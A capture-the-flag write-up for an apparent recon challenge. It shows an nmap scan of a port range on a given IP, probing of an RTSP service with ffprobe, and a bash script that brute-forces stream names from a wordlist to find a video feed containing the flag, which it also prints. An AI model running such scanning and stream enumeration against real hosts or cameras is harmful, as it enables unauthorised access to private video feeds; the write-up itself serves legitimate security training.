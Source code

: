 # 😱 Screamin Screamin — CTF Write-Up

**Category:** Recon\
**Points:** 200

---

## 🎯 Challenge Summary

We received intel that Juche Jaguar exposed a network stream on host `34.85.185.78`, operating somewhere between TCP ports `5000–10000`. Our objective was to:

- Identify the correct RTSP port.
- Brute-force the correct stream name.
- Connect and extract the flag from the stream.

---

## 🧰 Tools Used

| Tool              | Purpose                          |
| ----------------- | -------------------------------- |
| `nmap`            | Port scanning and RTSP detection |
| `ffprobe`         | Silent RTSP probing              |
| `bash`            | Brute-force scripting            |
| `ffplay` or `VLC` | Stream viewing and playback      |

---

## 🪜 Step-by-Step Breakdown

### 🔎 Step 1: Scan for the RTSP Port

Used `nmap` to scan TCP ports 5000–10000 for RTSP services:

```bash
nmap -p 5000-10000 --script rtsp-methods -T4 34.85.185.78
```

📌 **Result:** Port `8774` was found open and likely running RTSP.

---

### 📦 Step 2: Install `ffprobe`

On Kali Linux, `ffprobe` may not be installed by default.

To fix:

```bash
echo 'deb http://http.kali.org/kali kali-rolling main non-free contrib' | sudo tee /etc/apt/sources.list
sudo apt update
sudo apt install ffmpeg
```

---

### 🚪 Step 3: Confirm RTSP Server

Tested the RTSP service using `ffprobe`:

```bash
ffprobe rtsp://34.85.185.78:8774/
```

📌 **Output:** `404 Not Found` — confirms RTSP is active, but stream name is required.

---

### 🧠 Step 4: Brute Force the Stream Name

Created a `streams.txt` list:

```text
stream
stream1
live
live.sdp
media
video
test
camera
cam
broadcast
```

Wrote a brute force script `brute_rtsp.sh`:

```bash
#!/bin/bash
HOST="34.85.185.78"
PORT="8774"

while IFS= read -r STREAM; do
  URL="rtsp://$HOST:$PORT/$STREAM"
  echo "[*] Trying: $URL"
  ffprobe -v error "$URL" > /dev/null 2>&1
  if [ $? -eq 0 ]; then
    echo "✅ SUCCESS: Stream found at $URL"
    break
  fi
done < streams.txt
```

Run the script:

```bash
chmod +x brute_rtsp.sh
./brute_rtsp.sh
```

📌 **Success:** Stream found at `/stream`

---
![Capture (1)](https://github.com/user-attachments/assets/19e582e9-46de-40c1-8c1e-871e8b14a250)

### 🎥 Step 5: View the Stream and Capture Flag

Used `ffplay` to open the stream:

```bash
ffplay rtsp://34.85.185.78:8774/stream
```

💡 **Flag appeared in the video stream:**

```
C1{RTSP_you_found_me}
```

---
![screamin screamin](https://github.com/user-attachments/assets/caf67cc4-564b-47a9-87cd-dfa1e5950b93)

## 🧠 Key Takeaways

- RTSP often doesn't advertise stream names — brute-force required.
- `ffprobe` is silent and efficient for probing stream validity.
- Custom Kali installs may require fixing package keys and repos.
- Combining network scanning and media tools = effective enumeration strategy.

---

## 🏁 Final Flag

```
C1{RTSP_you_found_me}
```

---

